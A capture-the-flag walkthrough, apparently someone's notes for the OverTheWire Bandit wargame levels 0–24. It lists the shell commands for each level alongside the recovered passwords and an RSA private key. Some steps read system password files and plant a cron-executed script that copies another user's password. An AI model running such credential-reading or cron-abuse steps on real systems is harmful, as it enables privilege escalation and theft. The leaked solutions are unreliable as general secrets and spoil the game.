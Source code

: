 Level 0-1: ls, cat readme
	-Password: NH2SXQwcBdpmTEzi3bvBHMM9H66vVXjL

Level 1-2: ls, cat < -
	-Password: rRGizSaX8Mk1RTb1CNQoXTcYZWU6lgzi

Level 2-3: ls, cat "spaces in this filename"
	-Password: aBZ0W5EmUfAf7kHTQeOwd8bauFJ2lAiG

Level 3-4: ls, cd inhere, ls -al, cat .hidden
	-Password: 2EW7BBsr6aMMoJ2HjW067dm8EgX26xNe

Level 4-5: ls, cd inhere, ls, file ./*, cat ./-file07
	-Password: lrIWWI6bB37kxfiCQZqUdOIYfr6eEeqR

Level 5-6: -find ./inhere -type f -size 1033c
	 -cat ./inhere/maybehere07/.file2

	-Password: P4L4vucdmLnm8I7Vl7jG1ApGSfjYKqJU

Level 6-7: -find / -user bandit7 -group bandit6
	 -cat /var/lib/dpkg/info/bandit7.password

	-Password: z7WtoNQU2XfjmMtWA8u5rN4vzqu4v99S

Level 7-8: -cat data.txt|grep millionth

	Password: TESKZC0XvTetK0S9xNwm25STk5iWrBvP

Level 8-9: -sort data.txt | uniq -u
	-Password: EN632PlfYiZbn3PhVK3XOGSlNInNE00t

Level 9-10: strings data.txt | grep =
	-Password: G7w8LIi6J3kTb8A7j9LgrywtEUlyyp6s

Level 10-11: cat data.txt | base64 --decode
	-Password: 6zPeziLdR2RKNdNYFNb6nVCKzphlXHBM

Level 11-12: cat data.txt | tr 'A-Za-z' 'N-ZA-Mn-za-m'
	-Password: JVNBBFSmZwKKOP0XbFXOoW8chDz5yVRv

Level 12-13: mkdir /tmp/tanjona123, cd /tmp/tanjona123, cp ~/data.txt .
		
  -cat data.txt| xxd -r > data
  -file data
  -mv data data.gz
  -gzip -d data.gz
  -ls
  -file data
  -mv data data.bz
  -bzip2 -d data.bz
  -ls
  -file data
  -mv data data.gz
  -gz -d data.gz
  -gzip -d data.gz
  -file data
  -mv data data.tar
  -tar -xf data.tar
  -file data
  -ls
  -file data5.bin
  -mv data5.bin data5.tar
  -tar -xf data5.tar
  -ls
  -file data6.bin
  -mv data6.bin data6.bz
  -bzip2 -d data6.bz
  -file data6
  -ls
  -mv data6 data6.tar
  -tar -xf data6.tar
  -ls
  -file data8.bin
  -mv data8.bin data8.gz
  -gzip -d data8.gz
  -ls
  -file data8
  -cat data8

	-Password: wbWdlBxEir4CaE8LaPhauuOo6pwRmrDw

Level 13-14: ssh -i sshkey.private bandit14@localhost -p 2220
	-Password: fGrHPx402xGC7U7rXKDaxiWFTOiF0ENq

Level 14-15:  echo "fGrHPx402xGC7U7rXKDaxiWFTOiF0ENq" | nc localhost 30000
	-Password: jN2kgmIXJ6fShzhT2avhotn4Zcka6tnt

Level 15-16: echo "jN2kgmIXJ6fShzhT2avhotn4Zcka6tnt" | openssl s_client -connect localhost:30001 -ign_eof
	-Password: JQttfApK4SeyHwDlI9SXGR50qclOAil1

Level 16-17: -echo "JQttfApK4SeyHwDlI9SXGR50qclOAil1" | openssl s_client -connect localhost:31790 -ign_eof
	     -mkdir /tmp/myKey
	     -cd /tmp/myKey
             -nano private.key
	     -chmod 400 private.key
	     -ssh -i /tmp/myKey/private.key bandit17@localhost -p 2220

	-Credentials : 
	-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----

Level 17-18: ls, diff passwords.old passwords.new
	-Password: hga5tuuCLF6fFzUpnagiMN8ssu9LFrdg

Level 18-19: ssh bandit18@bandit.labs.overthewire.org -p 2220 -t "/bin/sh"
	-Password: awhqfNnAbc1naukrpqDYcF95h7HoMTrC

Level 19-20: ./bandit20-do cat /etc/bandit_pass/bandit20
	-Password: VxCazJaVykI6W36BkBU0mJTCM8rR95XT

Level 20-21: 	-ls
		-echo "VxCazJaVykI6W36BkBU0mJTCM8rR95XT" | nc -l -p 2710 &
		-./suconnect 2710

	-Password: NvEJF7oVjkddltPSrdKEFOllh9V1IBcq

Level 21-22: -cat /etc/cron.d/cronjob_bandit22
	     -cat /usr/bin/cronjob_bandit22.sh
	-Password: WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff

Level 22-23: -ls /etc/cron.d
	     -cat /etc/cron.d/cronjob_bandit23
	     -cat /usr/bin/cronjob_bandit23.sh
          -echo "I am user bandit23" | md5sum | cut -d ' ' -f 1
	     -cat /tmp/8ca319486bfbbc3663ea0fbe81326349
	-Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

Level 23-24: -cd /tmp
             -mkdir tjnaze
             -cd tjnaze
             -touch script.sh
             -nano script.sh
                    #!/bin/bash
                    cat /etc/bandit_pass/bandit24 >> /tmp/tjnaze/password
             -cd ..
             -chmod 777 tjnaze
             -cd tjnaze
             -chmod 777 script.sh
             -cp script.sh /var/spool/bandit24/foo/
             -cat password
     -Password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar